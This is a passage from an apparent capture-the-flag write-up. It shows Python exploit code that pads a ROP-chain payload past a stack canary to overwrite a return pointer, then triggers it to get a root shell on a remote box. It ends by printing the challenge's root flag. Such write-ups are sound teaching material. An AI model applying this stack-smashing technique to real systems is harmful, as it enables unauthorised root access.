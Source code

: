 Now we need to copy this so that it overwrites the return pointer. We'll pad up to `1020`, which is 4 less than our input:

```python
payload = b"A" * 12 + rop.chain()

write(payload.ljust(0xff, b'A'))    # index = 255
write(b'B'*0xff)    # index = 510
write(b'C'*0xff)    # index = 765
write(b'D'*0xff)    # index = 1020
```

The canary is located 1032 bytes after the start of out input, so place `b"A" * 12` before our payload to pad it up to that. We then `copy` from offset 0:

```python
copy(len(payload), offset=0)    # stack smash
```

Which will overwrite the return pointer. Then we trigger the `ret` with `dump`:

```python
dump()    # trigger return
```

And get our shell:

```text
p.interactive()        # get shell
```

Running this against the binary locally works:

```text
$ echo 'working local exploit!'
working local exploit!
```

And since we set up the environment before, transferring it to remote should work just fine:

```text
$ id
uid=0(root) gid=0(root) groups=0(root)
```

And it does! Now we can just get the root flag and successfully pwn this box:

```text
$ cat /root/root.txt
61db36a363ed4081c35b37e2d85e1c36
```

Sweet!

